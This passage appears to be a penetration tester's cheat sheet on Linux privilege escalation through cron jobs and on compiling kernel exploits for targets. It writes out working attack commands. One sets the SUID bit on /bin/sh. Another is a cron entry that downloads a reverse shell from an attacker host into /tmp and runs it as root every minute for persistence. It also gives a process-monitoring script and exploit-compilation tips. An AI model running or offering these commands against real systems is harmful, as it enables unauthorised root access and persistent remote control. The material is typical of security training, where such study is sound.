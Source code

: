 ```bash
cat /etc/crontab
grep "CRON" /var/log/cron.log
minute   hour   day date   month     day of the week(0 is Sunday)    user
*/5      *      *            *         *                            root

# WRITABLE FILES / CRON TASKS
# modify the script and write SUID privs to the shell
chmod 4755 /bin/sh 
# Then watch the behaviour until we have the setuid bit
watch -n 1 ls -l /bin/sh
# IF THE FILE CAN BE MODIFIED:
- Use that programming language to spawn a shell (GTFObins / reverse shell)
# IF THERE IS A TASK OR STH THAT EXECUTES THE FILE WITH HIGH PRIV:
- Try to rename the file and create one with the original name to spawn a shell

# Add a new cron job every minute to download and execute a revshell (persistence)
echo '* * * * * root /bin/bash -c "/usr/bin/wget $IP/shell -O /tmp/shell && chmod 777 /tmp/shell && /tmp/shell"' > /$CRON_PATH

# SCRIPT TO DETECT CRON TASKS (SIMILAR TO PSPY)
#!/bin/bash
old_process=$(ps -eo command) #commands that are being executed right now
while true; do #infinite loop
	new_process=$(ps -eo command) #new variable with different processes due to the delay
	#Get the difference of processes (they start with < or >) except kworker
	diff <(echo "$old_process")  <(echo "$new_process") | grep "[\>\<]" | grep -v "kworker"
	old_process=$new_process
done
```
{% endcode %}

## Exploit Compilation

{% embed url="https://github.com/SecWiki/linux-kernel-exploits" %}

{% code overflow="wrap" fullWidth="true" %}
```bash
file /bin/bash
# if it says pie executable is ok, if not we have to specify --no-pie (maybe name is different) to specify no pie compilation when we compile scripts

# COMPILE 32-BIT BINARY ON KALI (WHEN GCC IS NOT AVAILABLE ON TARGET)
sudo apt-get install gcc-multilib
sudo apt-get install libc6-dev:i386
gcc -m32 -static exploit.c -o exploit
gcc -m32 -Wl,--hash-style=both 9542.c -o 9542

# Compile exploits for older Linux machines
https://github.com/X0RW3LL/XenSpawn

# C# compilation (mono)
If we need to convert from .NET to C# or viceversa, use AI such as Chat-GPT
"Convert the following VB.NET code into C# code and include functions inside static Main method as entry point"
Copy the output inside File.cs and hen
mcs File.cs
./File.exe

# DOTNET (COMPILE WINDOWS EXPLOITS)
https://learn.microsoft.com/en-us/dotnet/core/install/linux-debian
If that fails, get dotnet v7 on Docker (ask ChatGPT)

# LINUX EXPLOIT SUGGESTER
```